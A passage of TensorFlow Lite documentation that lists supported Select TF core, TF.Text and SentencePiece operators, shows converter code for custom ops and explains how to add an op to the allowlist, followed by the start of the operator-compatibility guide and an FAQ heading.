*   `raw_ops.DestroyResourceOp`
*   `raw_ops.DestroyTemporaryVariable`
*   `raw_ops.Diag`
*   `raw_ops.DiagPart`
*   `raw_ops.Dilation2D`
*   `raw_ops.Dilation2DBackpropFilter`
*   `raw_ops.Dilation2DBackpropInput`
*   `raw_ops.Div`
*   `raw_ops.DivNoNan`
*   `raw_ops.DynamicPartition`
*   `raw_ops.DynamicStitch`
*   `raw_ops.Einsum`
*   `raw_ops.Elu`
*   `raw_ops.EluGrad`
*   `raw_ops.Empty`
*   `raw_ops.EmptyTensorList`
*   `raw_ops.EmptyTensorMap`
*   `raw_ops.EncodeBase64`
*   `raw_ops.EncodeJpeg`
*   `raw_ops.EncodeJpegVariableQuality`
*   `raw_ops.EncodePng`
*   `raw_ops.EncodeWav`
*   `raw_ops.EnsureShape`
*   `raw_ops.Enter`
*   `raw_ops.Equal`
*   `raw_ops.Erf`
*   `raw_ops.Exit`
*   `raw_ops.Exp`
*   `raw_ops.ExpandDims`
*   `raw_ops.ExtractImagePatches`
*   `raw_ops.FakeQuantWithMinMaxArgs`
*   `raw_ops.FakeQuantWithMinMaxArgsGradient`
*   `raw_ops.FakeQuantWithMinMaxVars`
*   `raw_ops.FakeQuantWithMinMaxVarsGradient`
*   `raw_ops.FakeQuantWithMinMaxVarsPerChannel`
*   `raw_ops.FakeQuantWithMinMaxVarsPerChannelGradient`
*   `raw_ops.FakeQueue`
*   `raw_ops.FFT`
*   `raw_ops.FFT2D`
*   `raw_ops.FFT3D`
*   `raw_ops.FIFOQueue`
*   `raw_ops.FIFOQueueV2`
*   `raw_ops.Fill`
*   `raw_ops.FilterDataset`
*   `raw_ops.FinalizeDataset`
*   `raw_ops.Fingerprint`
*   `raw_ops.FlatMapDataset`
*   `raw_ops.Floor`
*   `raw_ops.FloorDiv`
*   `raw_ops.FloorMod`
*   `raw_ops.FusedBatchNorm`
*   `raw_ops.FusedBatchNormGrad`
*   `raw_ops.FusedBatchNormGradV2`
*   `raw_ops.FusedBatchNormGradV3`
*   `raw_ops.FusedBatchNormV2`
*   `raw_ops.FusedBatchNormV3`
*   `raw_ops.FusedPadConv2D`
*   `raw_ops.FusedResizeAndPadConv2D`
*   `raw_ops.Gather`
*   `raw_ops.GatherNd`
*   `raw_ops.GatherV2`
*   `raw_ops.GetSessionHandle`
*   `raw_ops.GetSessionHandleV2`
*   `raw_ops.GetSessionTensor`
*   `raw_ops.Greater`
*   `raw_ops.GreaterEqual`
*   `raw_ops.HSVToRGB`
*   `raw_ops.HashTable`
*   `raw_ops.HashTableV2`
*   `raw_ops.HistogramSummary`
*   `raw_ops.Identity`
*   `raw_ops.IdentityN`
*   `raw_ops.IFFT`
*   `raw_ops.IFFT2D`
*   `raw_ops.IFFT3D`
*   `raw_ops.Imag`
*   `raw_ops.ImageProjectiveTransformV2`
*   `raw_ops.ImageProjectiveTransformV3`
*   `raw_ops.ImmutableConst`
*   `raw_ops.InplaceAdd`
*   `raw_ops.InplaceSub`
*   `raw_ops.InplaceUpdate`
*   `raw_ops.InTopK`
*   `raw_ops.InTopKV2`
*   `raw_ops.InitializeTable`
*   `raw_ops.InitializeTableFromDataset`
*   `raw_ops.InitializeTableFromTextFile`
*   `raw_ops.InitializeTableFromTextFileV2`
*   `raw_ops.InitializeTableV2`
*   `raw_ops.Inv`
*   `raw_ops.Invert`
*   `raw_ops.InvertPermutation`
*   `raw_ops.InvGrad`
*   `raw_ops.IRFFT`
*   `raw_ops.IRFFT2D`
*   `raw_ops.IRFFT3D`
*   `raw_ops.IsBoostedTreesQuantileStreamResourceInitialized`
*   `raw_ops.IsFinite`
*   `raw_ops.IsNan`
*   `raw_ops.IsVariableInitialized`
*   `raw_ops.LRN`
*   `raw_ops.LeakyRelu`
*   `raw_ops.LeakyReluGrad`
*   `raw_ops.LeftShift`
*   `raw_ops.Less`
*   `raw_ops.LessEqual`
*   `raw_ops.LinSpace`
*   `raw_ops.ListDiff`
*   `raw_ops.Log`
*   `raw_ops.LogMatrixDeterminant`
*   `raw_ops.LogSoftmax`
*   `raw_ops.LogicalAnd`
*   `raw_ops.LogicalNot`
*   `raw_ops.LogicalOr`
*   `raw_ops.LookupTableExport`
*   `raw_ops.LookupTableExportV2`
*   `raw_ops.LookupTableFind`
*   `raw_ops.LookupTableFindV2`
*   `raw_ops.LookupTableImport`
*   `raw_ops.LookupTableImportV2`
*   `raw_ops.LookupTableInsert`
*   `raw_ops.LookupTableInsertV2`
*   `raw_ops.LookupTableRemoveV2`
*   `raw_ops.LookupTableSize`
*   `raw_ops.LookupTableSizeV2`
*   `raw_ops.LoopCond`
*   `raw_ops.LRN`
*   `raw_ops.MapDataset`
*   `raw_ops.MatMul`
*   `raw_ops.MatrixBandPart`
*   `raw_ops.MatrixDiag`
*   `raw_ops.MatrixDiagPart`
*   `raw_ops.MatrixDiagPartV2`
*   `raw_ops.MatrixDiagPartV3`
*   `raw_ops.MatrixDiagV2`
*   `raw_ops.MatrixDiagV3`
*   `raw_ops.MatrixInverse`
*   `raw_ops.MatrixSetDiag`
*   `raw_ops.MatrixSetDiagV2`
*   `raw_ops.MatrixSetDiagV3`
*   `raw_ops.MatrixTriangularSolve`
*   `raw_ops.Max`
*   `raw_ops.Maximum`
*   `raw_ops.MaxPool`
*   `raw_ops.MaxPool3D`
*   `raw_ops.MaxPool3DGrad`
*   `raw_ops.MaxPool3DGradGrad`
*   `raw_ops.MaxPoolGrad`
*   `raw_ops.MaxPoolGradGrad`
*   `raw_ops.MaxPoolGradGradV2`
*   `raw_ops.MaxPoolGradV2`
*   `raw_ops.MaxPoolGradWithArgmax`
*   `raw_ops.MaxPoolV2`
*   `raw_ops.MaxPoolWithArgmax`
*   `raw_ops.Mean`
*   `raw_ops.Merge`
*   `raw_ops.MergeSummary`
*   `raw_ops.MergeV2Checkpoints`
*   `raw_ops.Mfcc`
*   `raw_ops.Min`
*   `raw_ops.Minimum`
*   `raw_ops.MirrorPad`
*   `raw_ops.MirrorPadGrad`
*   `raw_ops.ModelDataset`
*   `raw_ops.Mul`
*   `raw_ops.MulNoNan`
*   `raw_ops.Multinomial`
*   `raw_ops.MutableDenseHashTable`
*   `raw_ops.MutableDenseHashTableV2`
*   `raw_ops.MutableHashTable`
*   `raw_ops.MutableHashTableOfTensors`
*   `raw_ops.MutableHashTableOfTensorsV2`
*   `raw_ops.MutableHashTableV2`
*   `raw_ops.Neg`
*   `raw_ops.NextIteration`
*   `raw_ops.NonMaxSuppression`
*   `raw_ops.NonMaxSuppressionV2`
*   `raw_ops.NonMaxSuppressionV3`
*   `raw_ops.NonMaxSuppressionV4`
*   `raw_ops.NonMaxSuppressionV5`
*   `raw_ops.NonMaxSuppressionWithOverlaps`
*   `raw_ops.NoOp`
*   `raw_ops.NotEqual`
*   `raw_ops.OneHot`
*   `raw_ops.OnesLike`
*   `raw_ops.OptimizeDatasetV2`
*   `raw_ops.OptionalFromValue`
*   `raw_ops.OptionalGetValue`
*   `raw_ops.OptionalHasValue`
*   `raw_ops.OptionalNone`
*   `raw_ops.Pack`
*   `raw_ops.Pad`
*   `raw_ops.PadV2`
*   `raw_ops.PaddingFIFOQueue`
*   `raw_ops.PaddingFIFOQueueV2`
*   `raw_ops.PadV2`
*   `raw_ops.ParallelConcat`
*   `raw_ops.ParallelDynamicStitch`
*   `raw_ops.ParseExample`
*   `raw_ops.ParseExampleV2`
*   `raw_ops.ParseSequenceExample`
*   `raw_ops.ParseSequenceExampleV2`
*   `raw_ops.ParseSingleExample`
*   `raw_ops.ParseSingleSequenceExample`
*   `raw_ops.Placeholder`
*   `raw_ops.PlaceholderV2`
*   `raw_ops.PlaceholderWithDefault`
*   `raw_ops.PopulationCount`
*   `raw_ops.Pow`
*   `raw_ops.PreventGradient`
*   `raw_ops.Print`
*   `raw_ops.PrintV2`
*   `raw_ops.Prod`
*   `raw_ops.Qr`
*   `raw_ops.QuantizedAdd`
*   `raw_ops.QuantizedAvgPool`
*   `raw_ops.QuantizedBatchNormWithGlobalNormalization`
*   `raw_ops.QuantizedBiasAdd`
*   `raw_ops.QuantizedConcat`
*   `raw_ops.QuantizedConv2D`
*   `raw_ops.QuantizedInstanceNorm`
*   `raw_ops.QuantizedMatMul`
*   `raw_ops.QuantizedMaxPool`
*   `raw_ops.QuantizedMul`
*   `raw_ops.QuantizeDownAndShrinkRange`
*   `raw_ops.QuantizedRelu`
*   `raw_ops.QuantizedRelu6`
*   `raw_ops.QuantizedReshape`
*   `raw_ops.QuantizedResizeBilinear`
*   `raw_ops.QuantizeV2`
*   `raw_ops.QueueClose`
*   `raw_ops.QueueCloseV2`
*   `raw_ops.QueueDequeue`
*   `raw_ops.QueueDequeueMany`
*   `raw_ops.QueueDequeueManyV2`
*   `raw_ops.QueueDequeueUpTo`
*   `raw_ops.QueueDequeueUpToV2`
*   `raw_ops.QueueDequeueV2`
*   `raw_ops.QueueEnqueue`
*   `raw_ops.QueueEnqueueMany`
*   `raw_ops.QueueEnqueueManyV2`
*   `raw_ops.QueueEnqueueV2`
*   `raw_ops.QueueIsClosed`
*   `raw_ops.QueueIsClosedV2`
*   `raw_ops.QueueSize`
*   `raw_ops.QueueSizeV2`
*   `raw_ops.RFFT`
*   `raw_ops.RFFT2D`
*   `raw_ops.RFFT3D`
*   `raw_ops.RGBToHSV`
*   `raw_ops.RaggedBincount`
*   `raw_ops.RaggedGather`
*   `raw_ops.RaggedRange`
*   `raw_ops.RaggedTensorFromVariant`
*   `raw_ops.RaggedTensorToSparse`
*   `raw_ops.RaggedTensorToTensor`
*   `raw_ops.RaggedTensorToVariant`
*   `raw_ops.RaggedTensorToVariantGradient`
*   `raw_ops.RandomGamma`
*   `raw_ops.RandomPoisson`
*   `raw_ops.RandomPoissonV2`
*   `raw_ops.RandomShuffle`
*   `raw_ops.RandomStandardNormal`
*   `raw_ops.RandomUniform`
*   `raw_ops.RandomUniformInt`
*   `raw_ops.Range`
*   `raw_ops.Rank`
*   `raw_ops.ReadVariableOp`
*   `raw_ops.Real`
*   `raw_ops.RealDiv`
*   `raw_ops.Reciprocal`
*   `raw_ops.ReciprocalGrad`
*   `raw_ops.Recv`
*   `raw_ops.ReduceDataset`
*   `raw_ops.ReduceJoin`
*   `raw_ops.RefEnter`
*   `raw_ops.RefExit`
*   `raw_ops.RefIdentity`
*   `raw_ops.RefMerge`
*   `raw_ops.RefNextIteration`
*   `raw_ops.RefSelect`
*   `raw_ops.RefSwitch`
*   `raw_ops.RegexFullMatch`
*   `raw_ops.RegexReplace`
*   `raw_ops.Relu`
*   `raw_ops.Relu6`
*   `raw_ops.Relu6Grad`
*   `raw_ops.ReluGrad`
*   `raw_ops.RemoteCall`
*   `raw_ops.RepeatDataset`
*   `raw_ops.RequantizationRange`
*   `raw_ops.Requantize`
*   `raw_ops.Reshape`
*   `raw_ops.ResizeBicubic`
*   `raw_ops.ResizeBicubicGrad`
*   `raw_ops.ResizeBilinear`
*   `raw_ops.ResizeBilinearGrad`
*   `raw_ops.ResizeNearestNeighbor`
*   `raw_ops.ResizeNearestNeighborGrad`
*   `raw_ops.ResourceApplyAdadelta`
*   `raw_ops.ResourceApplyAdagrad`
*   `raw_ops.ResourceApplyAdagradDA`
*   `raw_ops.ResourceApplyAdagradV2`
*   `raw_ops.ResourceApplyAdam`
*   `raw_ops.ResourceApplyAdaMax`
*   `raw_ops.ResourceApplyAdamWithAmsgrad`
*   `raw_ops.ResourceApplyAddSign`
*   `raw_ops.ResourceApplyCenteredRMSProp`
*   `raw_ops.ResourceApplyFtrl`
*   `raw_ops.ResourceApplyFtrlV2`
*   `raw_ops.ResourceApplyGradientDescent`
*   `raw_ops.ResourceApplyKerasMomentum`
*   `raw_ops.ResourceApplyMomentum`
*   `raw_ops.ResourceApplyPowerSign`
*   `raw_ops.ResourceApplyProximalAdagrad`
*   `raw_ops.ResourceApplyProximalGradientDescent`
*   `raw_ops.ResourceApplyRMSProp`
*   `raw_ops.ResourceGather`
*   `raw_ops.ResourceGatherNd`
*   `raw_ops.ResourceScatterAdd`
*   `raw_ops.ResourceScatterDiv`
*   `raw_ops.ResourceScatterMax`
*   `raw_ops.ResourceScatterMin`
*   `raw_ops.ResourceScatterMul`
*   `raw_ops.ResourceScatterNdAdd`
*   `raw_ops.ResourceScatterNdMax`
*   `raw_ops.ResourceScatterNdMin`
*   `raw_ops.ResourceScatterNdSub`
*   `raw_ops.ResourceScatterNdUpdate`
*   `raw_ops.ResourceScatterSub`
*   `raw_ops.ResourceScatterUpdate`
*   `raw_ops.ResourceSparseApplyAdadelta`
*   `raw_ops.ResourceSparseApplyAdagrad`
*   `raw_ops.ResourceSparseApplyAdagradDA`
*   `raw_ops.ResourceSparseApplyAdagradV2`
*   `raw_ops.ResourceSparseApplyCenteredRMSProp`
*   `raw_ops.ResourceSparseApplyFtrl`
*   `raw_ops.ResourceSparseApplyFtrlV2`
*   `raw_ops.ResourceSparseApplyKerasMomentum`
*   `raw_ops.ResourceSparseApplyMomentum`
*   `raw_ops.ResourceSparseApplyProximalAdagrad`
*   `raw_ops.ResourceSparseApplyProximalGradientDescent`
*   `raw_ops.ResourceSparseApplyRMSProp`
*   `raw_ops.ResourceStridedSliceAssign`
*   `raw_ops.Restore`
*   `raw_ops.RestoreSlice`
*   `raw_ops.RestoreV2`
*   `raw_ops.Reverse`
*   `raw_ops.ReverseSequence`
*   `raw_ops.ReverseV2`
*   `raw_ops.RightShift`
*   `raw_ops.Roll`
*   `raw_ops.Round`
*   `raw_ops.Rsqrt`
*   `raw_ops.RsqrtGrad`
*   `raw_ops.SampleDistortedBoundingBox`
*   `raw_ops.SampleDistortedBoundingBoxV2`
*   `raw_ops.Save`
*   `raw_ops.SaveSlices`
*   `raw_ops.SaveV2`
*   `raw_ops.ScalarSummary`
*   `raw_ops.ScatterNd`
*   `raw_ops.ScatterNdAdd`
*   `raw_ops.ScatterNdMax`
*   `raw_ops.ScatterNdMin`
*   `raw_ops.ScatterNdNonAliasingAdd`
*   `raw_ops.ScatterNdSub`
*   `raw_ops.ScatterNdUpdate`
*   `raw_ops.SegmentMax`
*   `raw_ops.SegmentMean`
*   `raw_ops.SegmentMin`
*   `raw_ops.SegmentProd`
*   `raw_ops.SegmentSum`
*   `raw_ops.Select`
*   `raw_ops.SelectV2`
*   `raw_ops.Selu`
*   `raw_ops.SeluGrad`
*   `raw_ops.Send`
*   `raw_ops.SerializeTensor`
*   `raw_ops.Shape`
*   `raw_ops.ShapeN`
*   `raw_ops.ShardedFilename`
*   `raw_ops.ShardedFilespec`
*   `raw_ops.Sigmoid`
*   `raw_ops.SigmoidGrad`
*   `raw_ops.Sign`
*   `raw_ops.Sin`
*   `raw_ops.Sinh`
*   `raw_ops.Size`
*   `raw_ops.Slice`
*   `raw_ops.Softmax`
*   `raw_ops.SoftmaxCrossEntropyWithLogits`
*   `raw_ops.Softplus`
*   `raw_ops.SoftplusGrad`
*   `raw_ops.Softsign`
*   `raw_ops.SoftsignGrad`
*   `raw_ops.SpaceToBatch`
*   `raw_ops.SpaceToBatchND`
*   `raw_ops.SpaceToDepth`
*   `raw_ops.SparseAdd`
*   `raw_ops.SparseApplyAdadelta`
*   `raw_ops.SparseApplyAdagrad`
*   `raw_ops.SparseApplyAdagradDA`
*   `raw_ops.SparseApplyAdagradV2`
*   `raw_ops.SparseApplyCenteredRMSProp`
*   `raw_ops.SparseApplyFtrl`
*   `raw_ops.SparseApplyFtrlV2`
*   `raw_ops.SparseApplyMomentum`
*   `raw_ops.SparseApplyProximalAdagrad`
*   `raw_ops.SparseApplyProximalGradientDescent`
*   `raw_ops.SparseApplyRMSProp`
*   `raw_ops.SparseBincount`
*   `raw_ops.SparseCross`
*   `raw_ops.SparseCrossHashed`
*   `raw_ops.SparseCrossV2`
*   `raw_ops.SparseFillEmptyRows`
*   `raw_ops.SparseFillEmptyRowsGrad`
*   `raw_ops.SparseReduceSum`
*   `raw_ops.SparseReshape`
*   `raw_ops.SparseReorder`
*   `raw_ops.SparseSegmentMean`
*   `raw_ops.SparseSegmentMeanGrad`
*   `raw_ops.SparseSegmentMeanWithNumSegments`
*   `raw_ops.SparseSegmentSqrtN`
*   `raw_ops.SparseSegmentSqrtNGrad`
*   `raw_ops.SparseSegmentSqrtNWithNumSegments`
*   `raw_ops.SparseSegmentSum`
*   `raw_ops.SparseSegmentSumGrad`
*   `raw_ops.SparseSegmentSumWithNumSegments`
*   `raw_ops.SparseSlice`
*   `raw_ops.SparseSoftmaxCrossEntropyWithLogits`
*   `raw_ops.SparseTensorDenseMatMul`
*   `raw_ops.SparseToDense`
*   `raw_ops.SparseToSparseSetOperation`
*   `raw_ops.Split`
*   `raw_ops.SplitV`
*   `raw_ops.Sqrt`
*   `raw_ops.SqrtGrad`
*   `raw_ops.Square`
*   `raw_ops.SquaredDifference`
*   `raw_ops.Squeeze`
*   `raw_ops.Stack`
*   `raw_ops.StackClose`
*   `raw_ops.StackCloseV2`
*   `raw_ops.StackPop`
*   `raw_ops.StackPopV2`
*   `raw_ops.StackPush`
*   `raw_ops.StackPushV2`
*   `raw_ops.StackV2`
*   `raw_ops.StatelessMultinomial`
*   `raw_ops.StatelessRandomGammaV2`
*   `raw_ops.StatelessRandomGetAlg`
*   `raw_ops.StatelessRandomGetKeyCounter`
*   `raw_ops.StatelessRandomGetKeyCounterAlg`
*   `raw_ops.StatelessRandomNormal`
*   `raw_ops.StatelessRandomNormalV2`
*   `raw_ops.StatelessRandomPoisson`
*   `raw_ops.StatelessRandomUniform`
*   `raw_ops.StatelessRandomUniformFullInt`
*   `raw_ops.StatelessRandomUniformFullIntV2`
*   `raw_ops.StatelessRandomUniformInt`
*   `raw_ops.StatelessRandomUniformIntV2`
*   `raw_ops.StatelessRandomUniformV2`
*   `raw_ops.StatelessSampleDistortedBoundingBox`
*   `raw_ops.StatelessTruncatedNormal`
*   `raw_ops.StatelessTruncatedNormalV2`
*   `raw_ops.StaticRegexFullMatch`
*   `raw_ops.StaticRegexReplace`
*   `raw_ops.StopGradient`
*   `raw_ops.StridedSlice`
*   `raw_ops.StridedSliceAssign`
*   `raw_ops.StridedSliceGrad`
*   `raw_ops.StringFormat`
*   `raw_ops.StringJoin`
*   `raw_ops.StringLength`
*   `raw_ops.StringLower`
*   `raw_ops.StringSplit`
*   `raw_ops.StringSplitV2`
*   `raw_ops.StringStrip`
*   `raw_ops.StringToHashBucket`
*   `raw_ops.StringToHashBucketFast`
*   `raw_ops.StringToHashBucketStrong`
*   `raw_ops.StringToNumber`
*   `raw_ops.Sub`
*   `raw_ops.Substr`
*   `raw_ops.Sum`
*   `raw_ops.Switch`
*   `raw_ops.SymbolicGradient`
*   `raw_ops.TakeDataset`
*   `raw_ops.TakeWhileDataset`
*   `raw_ops.Tan`
*   `raw_ops.Tanh`
*   `raw_ops.TanhGrad`
*   `raw_ops.TemporaryVariable`
*   `raw_ops.TensorArray`
*   `raw_ops.TensorArrayClose`
*   `raw_ops.TensorArrayCloseV2`
*   `raw_ops.TensorArrayCloseV3`
*   `raw_ops.TensorArrayConcat`
*   `raw_ops.TensorArrayConcatV2`
*   `raw_ops.TensorArrayConcatV3`
*   `raw_ops.TensorArrayGather`
*   `raw_ops.TensorArrayGatherV2`
*   `raw_ops.TensorArrayGatherV3`
*   `raw_ops.TensorArrayGrad`
*   `raw_ops.TensorArrayGradV2`
*   `raw_ops.TensorArrayGradV3`
*   `raw_ops.TensorArrayGradWithShape`
*   `raw_ops.TensorArrayPack`
*   `raw_ops.TensorArrayRead`
*   `raw_ops.TensorArrayReadV2`
*   `raw_ops.TensorArrayReadV3`
*   `raw_ops.TensorArrayScatter`
*   `raw_ops.TensorArrayScatterV2`
*   `raw_ops.TensorArrayScatterV3`
*   `raw_ops.TensorArraySize`
*   `raw_ops.TensorArraySizeV2`
*   `raw_ops.TensorArraySizeV3`
*   `raw_ops.TensorArraySplit`
*   `raw_ops.TensorArraySplitV2`
*   `raw_ops.TensorArraySplitV3`
*   `raw_ops.TensorArrayUnpack`
*   `raw_ops.TensorArrayV2`
*   `raw_ops.TensorArrayV3`
*   `raw_ops.TensorArrayWrite`
*   `raw_ops.TensorArrayWriteV2`
*   `raw_ops.TensorArrayWriteV3`
*   `raw_ops.TensorListConcat`
*   `raw_ops.TensorListConcatLists`
*   `raw_ops.TensorListConcatV2`
*   `raw_ops.TensorListElementShape`
*   `raw_ops.TensorListFromTensor`
*   `raw_ops.TensorListGather`
*   `raw_ops.TensorListGetItem`
*   `raw_ops.TensorListLength`
*   `raw_ops.TensorListPopBack`
*   `raw_ops.TensorListPushBack`
*   `raw_ops.TensorListPushBackBatch`
*   `raw_ops.TensorListReserve`
*   `raw_ops.TensorListResize`
*   `raw_ops.TensorListScatter`
*   `raw_ops.TensorListScatterIntoExistingList`
*   `raw_ops.TensorListScatterV2`
*   `raw_ops.TensorListSetItem`
*   `raw_ops.TensorListSplit`
*   `raw_ops.TensorListStack`
*   `raw_ops.TensorMapErase`
*   `raw_ops.TensorMapHasKey`
*   `raw_ops.TensorMapInsert`
*   `raw_ops.TensorMapLookup`
*   `raw_ops.TensorMapSize`
*   `raw_ops.TensorMapStackKeys`
*   `raw_ops.TensorScatterAdd`
*   `raw_ops.TensorScatterMax`
*   `raw_ops.TensorScatterMin`
*   `raw_ops.TensorScatterSub`
*   `raw_ops.TensorScatterUpdate`
*   `raw_ops.TensorSliceDataset`
*   `raw_ops.TensorStridedSliceUpdate`
*   `raw_ops.Tile`
*   `raw_ops.TileGrad`
*   `raw_ops.Timestamp`
*   `raw_ops.TokenizerFromLogits`
*   `raw_ops.TopK`
*   `raw_ops.TopKV2`
*   `raw_ops.Transpose`
*   `raw_ops.TruncateDiv`
*   `raw_ops.TruncatedNormal`
*   `raw_ops.UnicodeDecode`
*   `raw_ops.UnicodeDecodeWithOffsets`
*   `raw_ops.UnicodeEncode`
*   `raw_ops.UnicodeTranscode`
*   `raw_ops.Unique`
*   `raw_ops.UniqueV2`
*   `raw_ops.UniqueWithCounts`
*   `raw_ops.UniqueWithCountsV2`
*   `raw_ops.Unpack`
*   `raw_ops.UnsortedSegmentMax`
*   `raw_ops.UnsortedSegmentMin`
*   `raw_ops.UnsortedSegmentProd`
*   `raw_ops.UnsortedSegmentSum`
*   `raw_ops.UnwrapDatasetVariant`
*   `raw_ops.VarHandleOp`
*   `raw_ops.Variable`
*   `raw_ops.VariableShape`
*   `raw_ops.VariableV2`
*   `raw_ops.VarIsInitializedOp`
*   `raw_ops.Where`
*   `raw_ops.WrapDatasetVariant`
*   `raw_ops.Xdivy`
*   `raw_ops.Xlog1py`
*   `raw_ops.Xlogy`
*   `raw_ops.ZerosLike`

## TensorFlow Text and SentencePiece operators

The following
[TensorFlow Text](https://www.tensorflow.org/tutorials/tensorflow_text/intro)
and [SentencePiece](https://github.com/google/sentencepiece) operators are
supported if you use the Python API for conversion and import those libraries.

TF.Text operators:

*   `CaseFoldUTF8`
*   `ConstrainedSequence`
*   `MaxSpanningTree`
*   `NormalizeUTF8`
*   `NormalizeUTF8WithOffsetsMap`
*   `RegexSplitWithOffsets`
*   `RougeL`
*   `SentenceFragments`
*   `SentencepieceOp`
*   `SentencepieceTokenizeOp`
*   `SentencepieceTokenizeWithOffsetsOp`
*   `SentencepieceDetokenizeOp`
*   `SentencepieceVocabSizeOp`
*   `SplitMergeTokenizeWithOffsets`
*   `UnicodeScriptTokenizeWithOffsets`
*   `WhitespaceTokenizeWithOffsets`
*   `WordpieceTokenizeWithOffsets`

SentencePiece operators:

*   `SentencepieceGetPieceSize`
*   `SentencepiecePieceToId`
*   `SentencepieceIdToPiece`
*   `SentencepieceEncodeDense`
*   `SentencepieceEncodeSparse`
*   `SentencepieceDecode`

The following snippet shows how to convert models with the above operators:

```python
import tensorflow as tf
# These imports are required to load operators' definition.
import tensorflow_text as tf_text
import sentencepiece as spm

converter = tf.lite.TFLiteConverter.from_keras_model(your_model)
converter.target_spec.supported_ops = [
  tf.lite.OpsSet.TFLITE_BUILTINS, tf.lite.OpsSet.SELECT_TF_OPS
]
model_data = converter.convert()
```

On the runtime side, it is also required to link the TensorFlow Text or
SentencePiece library into the final app or binary.

## User's defined Operators

*Note: This feature is only available from TensorFlow 2.5 version*

If you
[created your own TensorFlow operators](https://www.tensorflow.org/guide/create_op),
you can also convert models containing them to TensorFlow Lite by listing
required operators in the `experimental_select_user_tf_ops` as following:

```python
import tensorflow as tf

ops_module = tf.load_op_library('./your_ops_library.so')

converter = tf.lite.TFLiteConverter.from_saved_model(your_model)
converter.target_spec.supported_ops = [
  tf.lite.OpsSet.TFLITE_BUILTINS, tf.lite.OpsSet.SELECT_TF_OPS
]
converter.target_spec.experimental_select_user_tf_ops = [
    'your_op_name1',
    'your_op_name2'
]
model_data = converter.convert()
```

On the runtime side, it is also required to link your operators library into the
final app or binary.

## Add TensorFlow core operators to the allowed list.

If you hit the case where the TensorFlow core operators are not in the above
allowed
[list](https://www.tensorflow.org/lite/guide/op_select_allowlist#tensorflow_core_operators),
you can report the feature request at
[here](https://github.com/tensorflow/tensorflow/issues) with the names of the
TensorFlow core operators, not listed in the allowed list.

You can also create own your pull request from the source code. For example, if
you want to add the `raw_ops.StringToNumber` op in the allowed list, there are
three places to update like this
[commit](https://github.com/tensorflow/tensorflow/commit/02e691329517eb5e76522ed8d8bef79ceb082ff8).

(1) Add the operator kernel source code to the `portable_extended_ops_group2`
BUILD rule.

```
filegroup(
    name = "portable_extended_ops_group2",
    srcs = [
        ...
+       "string_to_number_op.cc",

        ...
    ],
)
```

In order to find the relvant operator kernel source file under the
`tensorflow/core/kernels` directory, you can search the source code location,
which contains the following kernel declaration with the operator name:

```
REGISTER_KERNEL_BUILDER(Name("StringToNumber")                 \
                            .Device(DEVICE_CPU)                \
                            .TypeConstraint<type>("out_type"), \
                        StringToNumberOp<type>)
```

If there are any header files under the `tensorflow/core/kernels` directory,
required in the operator kernel source code, you need to add the header file
into the `portable_extended_ops_headers` BUILD rule as the follows:

```
filegroup(
    name = "portable_extended_ops_headers",
    srcs = [
        ...
+       "string_util.h",

        ...
    ],
)
```

(2) Add the operator name to the allowed list.

The allowed list is defined in the
`tensorflow/lite/delegates/flex/allowlisted_flex_ops.cc`. The TensorFlow core
operator name is need to be listed in order to be allowed through the Select TF
option.

```
static const std::set<std::string>* allowlisted_flex_ops =
    new std::set<std::string>({
        ...
+       "StringToNumber",

        ...
    });
```

Since the above list is sorted in alphabetical order, it makes sure to place the
name in the right place.

(3) Add the operator name to this guide page.

To show the operator inclusion to the other developers, this guide page should
be updated as well. This page is located at the
`tensorflow/lite/g3doc/guide/op_select_allowlist.md`.

```
## TensorFlow core operators

The following is an exhaustive list of TensorFlow core operations that are
supported by TensorFlow Lite runtime with the Select TensorFlow Ops feature.

...
+*   `raw_ops.StringToNumber`
...
```

Since the above list is sorted in alphabetical order, it makes sure to place the
name in the right place.
# TensorFlow Lite and TensorFlow operator compatibility

TensorFlow Lite supports a number of TensorFlow operations used in common
inference models. As they are processed by the TensorFlow Lite Optimizing
Converter, those operations may be elided or fused, before the supported
operations are mapped to their TensorFlow Lite counterparts.

Since the TensorFlow Lite builtin operator library only supports a limited
number of TensorFlow operators, not every model is convertible. Even for
supported operations, very specific usage patterns are sometimes expected, for
performance reasons. We expect to expand the set of supported operations in
future TensorFlow Lite releases.

The best way to understand how to build a TensorFlow model that can be used with
TensorFlow Lite is to carefully consider how operations are converted and
optimized, along with the limitations imposed by this process.

## Supported types

Most TensorFlow Lite operations target both floating-point (`float32`) and
quantized (`uint8`, `int8`) inference, but many ops do not yet for other types
like `tf.float16` and strings.

Apart from using different version of the operations, the other difference
between floating-point and quantized models is the way they are converted.
Quantized conversion requires dynamic range information for tensors. This
requires "fake-quantization" during model training, getting range information
via a calibration data set, or doing "on-the-fly" range estimation. See
[quantization](../performance/model_optimization.md).

## Supported operations and restrictions

TensorFlow Lite supports a subset of TensorFlow operations with some
limitations. For full list of operations and limitations see
[TF Lite Ops page](https://www.tensorflow.org/mlir/tfl_ops).

## Straight-forward conversions, constant-folding and fusing

A number of TensorFlow operations can be processed by TensorFlow Lite even
though they have no direct equivalent. This is the case for operations that can
be simply removed from the graph (`tf.identity`), replaced by tensors
(`tf.placeholder`), or fused into more complex operations (`tf.nn.bias_add`).
Even some supported operations may sometimes be removed through one of these
processes.

Here is a non-exhaustive list of TensorFlow operations that are usually removed
from the graph:

*   `tf.add`
*   `tf.check_numerics`
*   `tf.constant`
*   `tf.div`
*   `tf.divide`
*   `tf.fake_quant_with_min_max_args`
*   `tf.fake_quant_with_min_max_vars`
*   `tf.identity`
*   `tf.maximum`
*   `tf.minimum`
*   `tf.multiply`
*   `tf.no_op`
*   `tf.placeholder`
*   `tf.placeholder_with_default`
*   `tf.realdiv`
*   `tf.reduce_max`
*   `tf.reduce_min`
*   `tf.reduce_sum`
*   `tf.rsqrt`
*   `tf.shape`
*   `tf.sqrt`
*   `tf.square`
*   `tf.subtract`
*   `tf.tile`
*   `tf.nn.batch_norm_with_global_normalization`
*   `tf.nn.bias_add`
*   `tf.nn.fused_batch_norm`
*   `tf.nn.relu`
*   `tf.nn.relu6`

Note: Many of those operations don't have TensorFlow Lite equivalents, and the
corresponding model will not be convertible if they can't be elided or fused.

## Experimental Operations
The following TensorFlow Lite operations are present, but not ready for custom
models:

*   `CALL`
*   `CONCAT_EMBEDDINGS`
*   `CUSTOM`
*   `EMBEDDING_LOOKUP_SPARSE`
*   `HASHTABLE_LOOKUP`
*   `LSH_PROJECTION`
*   `SKIP_GRAM`
*   `SVDF`
# Frequently Asked Questions

If you don't find an answer to your question here, please look through our
detailed documentation for the topic or file a
[GitHub issue](https://github.com/tensorflow/tensorflow/issues).

## Model Conversion

